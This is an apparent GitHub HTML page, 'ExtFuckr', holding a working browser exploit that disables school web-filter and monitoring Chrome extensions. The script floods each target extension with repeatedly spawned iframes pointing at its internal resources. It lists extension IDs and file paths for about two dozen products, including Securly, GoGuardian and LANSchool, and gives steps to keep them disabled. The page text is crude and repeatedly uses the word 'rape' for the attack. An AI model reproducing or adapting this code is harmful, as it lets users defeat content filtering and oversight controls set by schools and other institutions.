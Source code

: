 data:text/html;charset=utf-8,<!DOCTYPE html>%0A<html lang%3D"en">%0A<head>%0A  <meta charset%3D"UTF-8">%0A  <meta name%3D"viewport" content%3D"width%3Ddevice-width%2C initial-scale%3D1.0">%0A  <title>ExtFuckr<%2Ftitle>%0A  <link rel%3D"shortcut icon" type%3D"image%2Fpng" href%3D"https://github.com/MiniLOL122/extension-fucker/blob/fa75bad4efd46df4200f33fd5f1f870a2677b878/result.png">%0A  <link rel%3D"stylesheet" href%3D"https%3A%2F%2Ffonts.googleapis.com%2Fcss2%3Ffamily%3DVarela%2BRound%26display%3Dswap">%0A  <style>%0A    body %7B%0A      font-family%3A 'Varela Round'%2C sans-serif%3B%0A      margin%3A 0%3B%0A      padding%3A 0%3B%0A    %7D%0A    header %7B%0A      background-color%3A %23333%3B%0A      color%3A %23fff%3B%0A      padding%3A 10px%3B%0A      text-align%3A center%3B%0A      display%3A flex%3B%0A      align-items%3A center%3B%0A      justify-content%3A center%3B%0A    %7D%0A    .logo %7B%0A      width%3A 50px%3B%0A      height%3A 50px%3B%0A      margin-right%3A 10px%3B%0A    %7D%0A    .container %7B%0A      max-width%3A 800px%3B%0A      margin%3A 130px auto 0 auto%3B%0A      padding%3A 20px%3B%0A      text-align%3A center%3B%0A      display%3A flex%3B%0A      flex-direction%3A column%3B%0A      align-items%3A center%3B%0A    %7D%0A    select %7B%0A      margin-bottom%3A 10px%3B%0A    %7D%0A    button %7B%0A      font-family%3A 'Varela Round'%2C sans-serif%3B%0A      background-color%3A %23007bff%3B%0A      color%3A %23fff%3B%0A      border%3A none%3B%0A      padding%3A 10px 20px%3B%0A      font-size%3A 16px%3B%0A      cursor%3A pointer%3B%0A      border-radius%3A 5px%3B%0A      margin-top%3A 10px%3B%0A    %7D%0A    button%3Ahover %7B%0A      background-color%3A %230056b3%3B%0A    %7D%0A    .overlay %7B%0A      position%3A fixed%3B%0A      top%3A 0%3B%0A      left%3A 0%3B%0A      width%3A 100%25%3B%0A      height%3A 100%25%3B%0A      background-color%3A rgba(0%2C 0%2C 0%2C 0.5)%3B%0A      display%3A none%3B%0A      justify-content%3A center%3B%0A      align-items%3A center%3B%0A      z-index%3A 9999%3B%0A      color%3A %23fff%3B%0A      font-size%3A 24px%3B%0A    %7D%0A    footer %7B%0A      background-color%3A %23333%3B%0A      color%3A %23fff%3B%0A      text-align%3A center%3B%0A      padding%3A 10px%3B%0A      position%3A fixed%3B%0A      bottom%3A 0%3B%0A      width%3A 100%25%3B%0A    %7D%0A    .kill-extension-text %7B%0A      display%3A none%3B%0A      margin-top%3A 20px%3B%0A      margin-left%3A 40px%3B%0A      margin-right%3A 40px%3B%0A      text-align%3A center%3B%0A    %7D%0A  <%2Fstyle>%0A<%2Fhead>%0A<body>%0A%0A<header>%0A    <h1>Extension Fucker<%2Fh1>%0A<%2Fheader>%0A%0A<div class%3D"container">%0A  <p>This program serves one purpose. KILL THOSE FUCKIN SPY WARE BLOCKERS! This shit should work in every new update, especially if your laptop is shitty! Internet, you're welcome. SUBSCRIBE TO MINILOL122.<%2Fp>%0A  <label for%3D"iframeSelect">Select to fuck an extension%3A<%2Flabel>%0A  <select id%3D"iframeSelect">%0A    <option value%3D"chrome-extension%3A%2F%2Fjoflmkccibkooplaeoinecjbmdebglab%2Ffonts%2FMetropolis.css">Securly<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fiheobagjkfklnlikgihanlhcddjoihkg%2Ffonts%2FMetropolis.css">Securly (old)<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fhaldlgldplgnggkjaafhelgiaglafanh%2Fyoutube_injection.js">Goguardian<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fbaleiojnjpgeojohhhfbichcodgljmnj%2Fblocked.html">LANSchool<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fddfbkhpmcdbciejenfcolaaiebnjcbfc%2Fbackground%2Fassets%2Fpages%2Fdefault-blocked.html">Linewize<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fghlpmldmjjhmdgmneoaibbegkjjbonbk%2Fpages%2FblockPage.html">Blocksi<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Figbgpehnbmhgdgjbhkkpedommgmfbeao%2Fyoutube_injection.js">Fortiguard<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fjcdhmojfecjfmbdpchihbeilohgnbdci%2Fblocked.html">Cisco Umbrella<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fjdogphakondfdmcanpapfahkdomaicfa%2Fimg%2Fckauth19x.png">ContentKeeper<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fodoanpnonilogofggaohhkdkdgbhdljp%2Fimg%2Fckauth19x.png">CK-Authenticator G3<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fjfbecfmiegcjddenjhlbhlikcbfmnafd%2Fnotfound.html">Securly Classroom<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fkbohafcopfpigkjdimdcdgenlhkmhbnc%2Fblocked.html">Hapara<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Faceopacgaepdcelohobicpffbbejnfac%2Fblocked.html">Hapara (new ID)<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fkmffehbidlalibfeklaefnckpidbodff%2Frestricted.html">iboss<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fadkcpkpghahmbopkjchobieckeoaoeem%2Ficon-128.png">Lightspeed Filter Agent<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fkkbmdgjggcdajckdlbngdjonpchpaiea%2Fassets%2Ficon-classroom-128.png">Lightspeed Classroom<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fjbddgjglgkkneonnineaohdhabjbgopi%2Fpages%2Fmessage-page.html">InterCLASS Filtering Service<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fecjoghccnjlodjlmkgmnbnkdcbnjgden%2Fresources%2Foptions.js">InterSafe GatewayConnection Agent<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fpabjlbjcgldndnpjnokjakbdofjgnfia%2Fimage%2Fallow_icon%2Fshield_green_128x128.png">LoiLo Web Filters<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fcgbbbjmgdpnifijconhamggjehlamcif%2Fimages%2Fgopher-buddy_128x128_color.png">Gopher Buddy<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fhonjcnefekfnompampcpmcdadibmjhlk%2Fblocked.html">LanSchool Web Helper<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fcgigopjakkeclhggchgnhmpmhghcbnaf%2Fmodels%2Fmodel.json">IMTLazarus<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Fjjpmjccpemllnmgiaojaocgnakpmfgjg%2Flicenses.html">Impero Backdrop<%2Foption>%0A    <option value%3D"chrome-extension%3A%2F%2Ffgmafhdohjkdhfaacgbgclmfgkgokgmb%2Fblock.html">Mobile Guardian<%2Foption>%0A  <%2Fselect>%0A  <button onclick%3D"warning()%3B">Rape That Extension!<%2Fbutton>%0A<%2Fdiv>%0A%0A<div class%3D"overlay" id%3D"overlay">Raping...<%2Fdiv>%0A%0A<footer>%0A  %0A%0A<div class%3D"kill-extension-text" id%3D"killExtensionText">%0A<%2Fdiv>%0A%0A<script>%0A var iframeCreationInterval%3B%0A%0A  function createIframes(container%2C iframeSrc) %7B%0A    for (var i %3D 0%3B i < 50%3B i%2B%2B) %7B%0A      var iframe %3D document.createElement('iframe')%3B%0A      iframe.src %3D iframeSrc%3B%0A      iframe.style.width %3D '10px'%3B%0A      iframe.style.height %3D '10px'%3B%0A      iframe.setAttribute('frameborder'%2C '0')%3B%0A      container.appendChild(iframe)%3B%0A    %7D%0A    %0A    setTimeout(function() %7B%0A      while (container.firstChild) %7B%0A        container.removeChild(container.firstChild)%3B%0A      %7D%0A      createIframes(container%2C iframeSrc)%3B%0A    %7D%2C 500)%3B%0A  %7D%0A  %0A  function hangerPopup(selectedOption%2C selectedSrc) %7B%0A    var popupName %3D "Raping " %2B selectedOption%3B%0A    var popup %3D window.open(""%2C popupName%2C "width%3D10000%2Cheight%3D10000")%3B%0A    popup.document.title %3D popupName%3B%0A    %0A    var popupDocument %3D popup.document%3B%0A    var popupBody %3D popupDocument.body%3B%0A    var iframeContainer %3D popupDocument.createElement('div')%3B%0A    iframeContainer.id %3D 'iframeContainer'%3B%0A    popupBody.appendChild(iframeContainer)%3B%0A    var centeredText %3D popupDocument.createElement('div')%3B%0A    centeredText.textContent %3D 'Click to hang ' %2B selectedOption%3B%0A    centeredText.style.position %3D 'absolute'%3B%0A    centeredText.style.top %3D '50%25'%3B%0A    centeredText.style.left %3D '50%25'%3B%0A    centeredText.style.transform %3D 'translate(-50%25%2C -50%25)'%3B%0A    centeredText.style.color %3D 'white'%3B%0A    popupDocument.body.style.cursor %3D 'pointer'%3B%0A    popupDocument.body.style.backgroundColor %3D 'black'%3B%0A    popupBody.appendChild(centeredText)%3B%0A    %0A    var clicked %3D false%3B%0A    var clickHandler %3D function() %7B%0A      if (!clicked) %7B%0A        clicked %3D true%3B%0A%0A        centeredText.textContent %3D 'Raping ' %2B selectedOption %2B '...'%3B%0A%0A%09var popupName %3D "Open to Revive " %2B selectedOption%3B%0A%09popup.document.title %3D popupName%3B%0A%09      %0A%09var blankTab %3D popup.open("about%3Ablank"%2C "_blank")%3B%0A        var blankTabName %3D "Raping " %2B selectedOption%3B%0A%09blankTab.document.title %3D blankTabName%3B%0A%09var blankTabDocument %3D blankTab.document%3B%0A%09var blankTabBody %3D blankTabDocument.body%3B%0A%09var centeredText2 %3D blankTabDocument.createElement('div')%3B%0A   %09centeredText2.textContent %3D 'Raping ' %2B selectedOption %2B '...'%3B%0A   %09centeredText2.style.position %3D 'absolute'%3B%0A   %09centeredText2.style.top %3D '50%25'%3B%0A  %09centeredText2.style.left %3D '50%25'%3B%0A  %09centeredText2.style.transform %3D 'translate(-50%25%2C -50%25)'%3B%0A  %09centeredText2.style.color %3D 'white'%3B%0A  %09blankTabBody.appendChild(centeredText2)%3B%0A        blankTabDocument.body.style.backgroundColor %3D 'black'%3B%0A        blankTabDocument.body.appendChild(centeredText2)%3B%0A%0A        createIframes(iframeContainer%2C selectedSrc)%3B%0A        %0A        setTimeout(function() %7B%0A          if (blankTab %26%26 !blankTab.closed) %7B%0A            blankTab.close()%3B%0A            alert(selectedOption %2B " was raped successfully! Now that it has been raped into submission%2C instructions to kill it and if you wanna, revive it, are below.")%3B%0A            window.document.getElementById("overlay").style.display %3D "none"%3B%0A            var extensionId %3D selectedSrc.substring(selectedSrc.indexOf("%2F%2F") %2B 2%2C selectedSrc.indexOf("%2F"%2C selectedSrc.indexOf("%2F%2F") %2B 2))%3B%0A            window.document.getElementById("killExtensionText").innerHTML %3D "To kill and successfully rape the extension " %2B selectedOption %2B "%2C open a new tab and go to <strong>chrome%3A%2F%2Fextensions%2F%3Fid%3D" %2B extensionId %2B "<%2Fstrong>. Then flip the Allow Access to File URLs switch. Now you can close that tab as well as this one. If you want to revive (unrape) the extension%2C open the window called Open to Revive and then that window should close itself restoring the extension in the process."%3B%0A            window.document.getElementById("killExtensionText").style.display %3D "block"%3B%0A            popupDocument.addEventListener('mouseover'%2C function() %7B%0A   %09%09popup.close()%3B%0A  %09%09%7D)%3B%0A          %7D%0A        %7D%2C 5000)%3B%0A%0A        popupDocument.removeEventListener('click'%2C clickHandler)%3B%0A      %7D%0A    %7D%3B%0A%0A    popupDocument.addEventListener('click'%2C clickHandler)%3B%0A  %7D%0A  %0A  function warning() %7B%0A    var overlay %3D window.document.getElementById("overlay")%3B%0A    overlay.style.display %3D "flex"%3B%0A    var iframeSelect %3D window.document.getElementById("iframeSelect")%3B%0A    var selectedOption %3D iframeSelect.options%5BiframeSelect.selectedIndex%5D.text%3B%0A    var selectedSrc %3D iframeSelect.value%3B%0A    %0A    hangerPopup(selectedOption%2C selectedSrc)%3B%0A  %7D%0A<%2Fscript>%0A<%2Fbody>%0A<%2Fhtml>%0A

